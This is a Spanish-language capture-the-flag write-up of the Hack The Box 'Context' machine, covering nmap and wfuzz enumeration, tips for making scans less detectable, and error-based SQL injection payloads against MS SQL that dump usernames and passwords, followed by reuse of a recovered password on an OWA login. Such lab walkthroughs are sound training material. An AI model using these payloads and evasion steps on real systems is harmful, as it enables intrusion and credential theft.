 ```yaml
---
layout: single
title: Context - Hack The Box
excerpt: "Context es una máquina de la sección Fortress de Hack The Box."
date: 2022-09-10
classes: wide
header:
  teaser: /assets/images/writeup-context/context.PNG
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - HTB
  - TCP
  - 
---
```


![](/assets/images/writeup-context/context2.jpg)

Context es una máquina de la sección Fortress de Hack The Box en la que se pueden hackear un montón de cosas, así podemos practicar un montón de técnicas distintas en la misma máquina.

## PORT SCAN

TCP:

(Por cierto, que en los writeups anteriores no lo puse y quizás es interesante. No tomo `medidas de seguridad` para hacer `menos ruido` y ser `menos detectable` porque es un CTF, pero sino, lo primero seria que el parámetro `-T 5` obviamente seria entre `-T 0` a `-T 3` y `fragmentaria` los paquetes en `paquetes de 8 bites` que se irían mandando poco a poco con el parámetro `-ff` (a la vez que haria uso de una `vpn` o `vps` para cambiarme la ip) `ESTO SE APLICA A TODOS LOS ESCANEOS PERO CON PARÁMETROS DISTINTOS`)

```
 > nmap -sV -sC -Pn -T5 -n --open 10.13.37.12

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-10 19:29 CEST
Nmap scan report for 10.13.37.12
Host is up (0.11s latency).
Not shown: 997 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
443/tcp  open  ssl/https
|_http-title: Home page - Home
| ssl-cert: Subject: commonName=WMSvc-SHA2-WEB
| Not valid before: 2020-10-12T18:31:49
|_Not valid after:  2030-10-10T18:31:49
|_http-server-header: Microsoft-IIS/10.0
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2070.00; GDR1
| ms-sql-ntlm-info: 
|   Target_Name: TEIGNTON
|   NetBIOS_Domain_Name: TEIGNTON
|   NetBIOS_Computer_Name: WEB
|   DNS_Domain_Name: TEIGNTON.HTB
|   DNS_Computer_Name: WEB.TEIGNTON.HTB
|   DNS_Tree_Name: TEIGNTON.HTB
|_  Product_Version: 10.0.17763
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: TEIGNTON
|   NetBIOS_Domain_Name: TEIGNTON
|   NetBIOS_Computer_Name: WEB
|   DNS_Domain_Name: TEIGNTON.HTB
|   DNS_Computer_Name: WEB.TEIGNTON.HTB
|   DNS_Tree_Name: TEIGNTON.HTB
|   Product_Version: 10.0.17763
|_  System_Time: 2022-09-10T17:30:25+00:00
| ssl-cert: Subject: commonName=WEB.TEIGNTON.HTB
| Not valid before: 2022-06-01T08:57:37
|_Not valid after:  2022-12-01T08:57:37
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| ms-sql-info: 
|   10.13.37.12:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 GDR1
|       number: 15.00.2070.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: GDR1
|       Post-SP patches applied: false
|_    TCP port: 1433
|_clock-skew: mean: 9s, deviation: 0s, median: 8s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.48 seconds
```

El puerto `443/tcp` está abierto, y tiene corriendo el servicio `open ssl` es decir que es una `web https`.

También vemos que hay una `Base de datos` en el puerto `1433/tcp` y viendo que tanto en ese puerto como en los siguientes está corriendo un servicio de `Microsoft` da a entender que la máquina es `Windows`, pero eso lo comprobaremos más adelante.

Y también vemos que hay un servidor corriendo en el puerto `3389/tcp` por lo que probablemente es otra `web`.

OS:

Ya hemos visto que probablemente será una máquina `Windows`, pero vamos a comprobarlo. Para esto vamos a mandarle una `traza ICMP` y según el `ttl` de la respuesta vamos a saber que `sistema operativo` tiene.

```
❯ ping -c 1 10.13.37.12

PING 10.13.37.12 (10.13.37.12) 56(84) bytes of data.
64 bytes from 10.13.37.12: icmp_seq=1 ttl=127 time=105 ms

--- 10.13.37.12 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 105.403/105.403/105.403/0.000 ms
```

Vemos que el ttl = 127 aunque en la realidad es `ttl = 128` porque la conexión no es directa, sino que pasa por un host intermediario, lo cual le quita uno de ttl. Por lo que podemos saber que estamos ante una máquina `Windows`.

(También he hecho un escaneo de los puertos que hay por el protocolo UDP, pero como no hay ningún puerto abierto he decidido no ponerlo aquí ya que no es interesante)

(Y no voy a probar el eternalblue, ya que nmap no lo detecta y al ser un fortress dudo que sea un windows antiguo)

## PUERTO 443

Si vamos a la web encontramos esto:

![](/assets/images/writeup-context/web-1.PNG)

Si clicamos donde pone lo de contacto, cuando nos redirija encontraremos que hace mención a un login de admin, y así podemos encontrar ese login que veremos más tarde.

Volviendo a la página principal no encontramos gran cosa, pero primero vamos a ver el `código` de la página, a ver si encontramos algo interesante o `virtual host routing` es decir, que haya varios servidores en el mismo host... Pero no encontramos gran cosa. Lo que si, si nos fijamos, la mayoría de cosas están en un directorio `/Home` por lo que vamos a hacer `wfuzzing` a ese directorio para ver que encontramos.

```
❯ wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt https://10.13.37.12/Home/FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://10.13.37.12/Home/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                     
=====================================================================

000000042:   200        99 L     209 W      2883 Ch     "products"
000000029:   200        59 L     245 W      2455 Ch     "privacy"
000000025:   200        63 L     145 W      2070 Ch     "contact"
000000245:   200        74 L     177 W      2137 Ch     "staff"
000000592:   200        63 L     145 W      2070 Ch     "Contact"
000000496:   200        99 L     209 W      2883 Ch     "Products"
000000616:   200        59 L     245 W      2455 Ch     "Privacy"
000000659:   200        78 L     232 W      2548 Ch     "Index"
000002614:   200        74 L     177 W      2137 Ch     "Staff"
000005085:   200        78 L     232 W      2548 Ch     "INDEX"
000023314:   200        63 L     145 W      2070 Ch     "CONTACT"
000043401:   200        59 L     245 W      2455 Ch     "PRIVACY"                                                                 
000071101:   200        99 L     209 W      2883 Ch     "PRODUCTS"  
```

Principalmente, me llama la atención el directorio `/Home/staff` vamos y vemos unos cuantos nombres que probablemente nos sirvan para `usernames` en algún lado.

![](/assets/images/writeup-context/web-staff.PNG)

También si vamos al `código` no encontramos gran cosa. Pero lo que sí que encontramos es la primera FLAG: `CONTEXT{s3cur1ty_thr0ugh_0bscur1ty}`

![](/assets/images/writeup-context/web-code.PNG)

A demás, vemos que un poco más abajo hace referencia al directorio `/Admin` que para entrar nos tenemos que loguear (no nos hace un redirect, por lo que `no parece vulnerable a Idor`) pero antes de probar algunos ataques como `Idor` o `SQLi` nos podemos fijar en otra cosa. En el mismo mensaje donde está la flag también encontramos unas credenciales `jay.teignton:admin` así que vamos a probarlas.

Y nos las acepta, no sé porque me ha hecho un redirect a la página principal, pero voy a `/Admin` y ya me manda para `/Admin/Management`. Pues ya estamos dentro, si fuese un CTF normal aquí seria donde habría que buscar una forma de mandarnos una reverse shell, pero es un Fortress así que no creo que todavía se pueda.

Pues asi lo primero que me llama la atención es que podemos añadir cosas, así que lo primero que voy a intentar sera una `SQL injection`. 

```
'+(select db_name())+'
```

![](/assets/images/writeup-context/admin-sqli-1.PNG)

Y vemos que es vulnerable y nos muestra el nombre de la base de datos:

![](/assets/images/writeup-context/admin-sqli-2.PNG)

Por lo que si seguimos enumerando la base de datos nos encontramos la `tabla users`:

```
'+(select name from webapp..sysobjects where xtype = 'U' order by name offset 1 rows fetch next 1 rows only)+'
```

![](/assets/images/writeup-context/admin-sqli-3.PNG)

Ahora si dumpeamos el `campo user` tendremos un usuario. Y si luego hacemos lo mismo con el `campo password` ya tendremos unas `credenciales validas`.

```
'+(select top 1 username from users order by username)+'

'+(select top 1 password from users order by username)+'
```

![](/assets/images/writeup-context/admin-sqli-4.PNG)

![](/assets/images/writeup-context/admin-sqli-5.PNG)

Y tambien de la misma forma podemos encontrar una FLAG: `CONTEXT{d0_it_st0p_it_br34k_it_f1x_it}`

```
'+(select password from users order by username offset 2 rows fetch next 1 rows only)+'
```

![](/assets/images/writeup-context/admin-sqli-6.PNG)

Haciendo `Wfuzzing` a la web principal (osea al directorio principal `https://10.13.37.12/`) encontramos el directorio `/owa` que parece un servidor de `outlook` y hay un loguin, por lo que podemos probar con las credenciales que ya tenemos: usuario `abbie.buckfast` y la contraseña `AMkru$3_f'/Q^7f?`

![](/assets/images/writeup-context/owa-1.PNG)

Y nos da acceso.


